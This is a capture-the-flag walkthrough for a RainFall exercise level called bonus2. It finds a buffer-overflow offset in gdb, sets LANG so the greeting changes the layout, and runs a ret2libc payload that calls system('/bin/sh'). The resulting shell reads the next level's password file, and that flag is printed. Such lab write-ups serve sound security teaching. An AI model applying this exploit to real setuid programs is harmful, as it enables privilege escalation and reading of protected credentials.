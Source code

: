 bonus2
======

*	We spawn with a [bonus2](src/bonus2) executable
	```console
	bonus2@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 bonus3 users 5664 Mar  6  2016 bonus2
	bonus2@RainFall:~$ ./bonus2 
	bonus2@RainFall:~$ ./bonus2 test
	bonus2@RainFall:~$ ./bonus2 test test
	Hello test
	```
*	As usual, [base](src/bonus2.c) and [better](src/bonus2_better.c) code. BUT this one is particular and only made for comprehension, there are no `strcpy()` in the `greetuser()` function !
*	No obvious exploit here, let's try a `ret2libc`
*	We have two buffer here
	```c
	char name[40];
	char message[32];
	```
*	Finding the offset was a bit harder than I thought:
	```gdb
	(gdb) run $(python -c 'print "A"*40') $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab"')
	Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A"*40') $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab"')
	Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

	Program received signal SIGSEGV, Segmentation fault.
	0x08006241 in ?? ()
	```
	We can see our offset does not look like a part of our cyclic pattern even thought it contains the `A` character.
*	The answer was in the code itself. When we look at the `greeting_user()` function we can see the usage of the `LANG` env variable. But the base value of it is `LANG=en_US.UTF-8` which is a multi-byte encoding scheme, it can use 1 to 4 bytes per character.
We just had to change it to `fi` for exemple and it worked fine after that.
	```gdb
	(gdb) run $(python -c 'print "A"*40') $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab"')
	Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A"*40') $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab"')
	Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

	Program received signal SIGSEGV, Segmentation fault.
	0x41366141 in ?? ()
	```
	So we got `18 bytes`
*	Let's retrieve the things we need
	```gdb 
	(gdb) p system
	$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
	(gdb) p exit
	$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
	(gdb) find &system,+9999999,"/bin/sh"
	0xb7f8cc58
	```
	- system() : \xb7\xe6\xb0\x60
	- exit() : \xb7\xe5\xeb\xe0
	- /bin/sh : \xb7\xf8\xcc\x58
*	Here is the result
	```console
	bonus2@RainFall:~$ ./bonus2 $(python -c 'print("A"*40)') $(python -c 'print("A"*18 + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1])')
	Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`�����X���
	$ whoami
	bonus3
	$ cat /home/user/bonus3/.pass 
	71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
	```
	Once again, it is important to keep the LANG to fi or the exploit wont work.
